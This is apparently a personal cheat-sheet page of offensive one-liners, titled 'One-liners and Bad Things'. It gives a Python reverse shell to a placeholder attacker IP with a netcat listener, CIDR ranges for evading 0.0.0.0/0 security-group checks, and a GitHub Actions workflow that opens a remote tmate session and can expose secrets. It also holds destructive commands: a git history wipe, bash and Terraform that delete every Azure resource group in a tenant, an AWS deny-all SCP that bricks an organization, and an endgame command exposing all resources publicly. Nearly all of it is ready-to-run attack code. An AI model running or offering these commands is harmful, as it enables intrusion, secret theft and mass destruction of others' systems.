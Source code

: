 ```yaml
---
description: My favorite one-line commands
---
```


# One-liners and Bad Things

## Reverse Shell

The attacker machine must be public and exposed to the internet.

Run this on the attacker machine:

```
nc -lp 1337
```

Run this on the victim machine:

{% code overflow="wrap" %}
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("BAD_IP_ADDRESS_HERE",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
{% endcode %}

If you're in an environment that restricts security groups that match 0.0.0.0/0, chances are they are doing pattern matching and not reasoning about effective network access. You can create an EC2 instance with security groups matching these IP ranges and it will be **effectively the same as 0.0.0.0/0**:

```
1.0.0.0/8
2.0.0.0/7
4.0.0.0/6
8.0.0.0/5
16.0.0.0/4
32.0.0.0/3
64.0.0.0/2
128.0.0.0/1
```

### Reverse Shell in GitHub Actions

```
name: Reverse Shell Pentesting

on: workflow_dispatch

jobs:
  reverse-shell:
    runs-on: ubuntu-latest
    steps:
    - uses: actions/checkout@v4
    
    - name: Setup tmate session
      uses: mxschmitt/action-tmate@v3
      timeout-minutes: 60
```

Run it and you'll see that it prints out an SSH command for you to connect with. You can add `env` to the "Setup tmate session" step to expose environment variables that are available to your GitHub actions workflow.

## Git

### Nuke Git commit history

```
git checkout --orphan newBranch; \ 
	git add -A; \                   # Add all files and commit them 
	git commit -m "Cleanup"; \
	git branch -D main; \           # Delete the main branch
	git branch -m main; \           # Rename the current branch to main
	git push -f origin main; \      # Force push main branch to GitHub
	git gc --aggressive --prune=all # Remove the old files
```

## Azure

### Delete all resources in an entire Azure Tenant

Bash variant:

```
#!/usr/bin/env bash

for sub in `az account list | jq -r '.[].id'`; do \
    for rg in `az group list --subscription $sub | jq -r '.[].name'`; do \
        az group delete --name ${rg} --subscription $sub --no-wait --yes; \
    done; done;
```

Terraform variant:

```
resource "null_resource" "nuke" {
  # Because we set this to timestamp, it *always* runs :D
  triggers = {
    party_like_its_jan_1_1970 = timestamp()
  }

  provisioner "local-exec" {
    command = <<EOF
for sub in `az account list | jq -r '.[].id'`; do \
    for rg in `az group list --subscription $sub | jq -r '.[].name'`; do \
        az group delete --name $rg --subscription $sub --no-wait --yes; \
    done; \
done;
EOF
  }
}
```

My post that explains the above is [here](https://kmcquade.com/2020/11/nuking-all-azure-resource-groups-under-all-azure-subscriptions/).&#x20;

## AWS

### Brick an entire AWS Organization using Deny \* SCPs

```
aws organizations attach-policy \
  --policy-id $(aws organizations create-policy --name pwn \
     --type SERVICE_CONTROL_POLICY \
     --description "pwn" 
     --content '{"Version": "2012-10-17","Statement": [{"Effect": "Deny", "Action": "*", "Resource": "*"}]}' \
    | jq ".Policy.PolicySummary.Id"\
    ) \
  --target-id $(aws organizations list-roots | jq ".Roots | .[0].Id")
```

### Share All Exposable Resources in an AWS Account with the internet 😈

```
endgame smash --service all --evil-principal "*"
```

## Other Resources

* [https://github.com/D4Vinci/One-Lin3r](https://github.com/D4Vinci/One-Lin3r): Gives you one-liners that aids in penetration testing operations, privilege escalation, and more.
